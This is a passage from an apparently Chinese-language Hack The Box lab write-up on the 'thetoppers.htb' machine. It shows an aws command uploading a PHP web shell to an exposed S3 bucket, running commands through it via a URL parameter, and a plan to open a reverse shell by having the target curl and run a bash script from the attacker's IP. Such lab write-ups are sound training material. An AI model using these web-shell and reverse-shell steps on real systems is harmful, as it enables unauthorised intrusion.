 使用cp命令拷贝到s3的桶里

```powershell
┌──(root㉿kali)-[/home/kali]
└─# aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

在浏览器中访问`http://thetoppers.htb/shell.php?cmd=ls`

可以看到其中有`images` 和`index.php `和我们刚刚上传的的`shell.php`

![img](assets/6558.png)

我们通过命令执行shell，curl执行bash脚本反弹shell来实现命令行交互。查看本机ip

ifconfig //10.10.16.90

生成bash一句话shell.sh

![img](assets/6578.png)
